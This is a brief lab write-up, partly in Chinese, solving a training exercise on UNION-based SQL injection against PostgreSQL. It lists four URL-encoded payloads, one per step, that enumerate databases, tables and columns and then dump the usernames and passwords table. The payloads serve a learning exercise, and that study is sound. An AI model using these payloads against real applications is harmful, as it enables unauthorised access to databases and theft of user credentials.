 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## SQL injection
* 注入點在 `category`
* 題目說要列出所有的 databases 再慢慢找 tables 跟 columns，好想用 sqlmap 歐 QQ
* 稍微測了一下，用的是 `PostgreSQL`
```
// 列舉 databases
payload = %27%20union%20select%20NULL,datname%20FROM%20pg_database%20--%20-
```
```
// 列舉 tables
payload = %27%20union%20select%20NULL,tablename%20FROM%20pg_tables%20--%20-
```
```
// 查 users_cuhtuf 有哪些 columns
payload = %27%20union%20select%20NULL,column_name%20FROM%20information_schema.columns%20WHERE%20table_name=%27users_cuhtuf%27%20--%20-
```
```
// 拿 username password
payload = %27%20union%20select%20username_kymppj,password_yyqmqc%20from%20users_cuhtuf%20--%20-
```

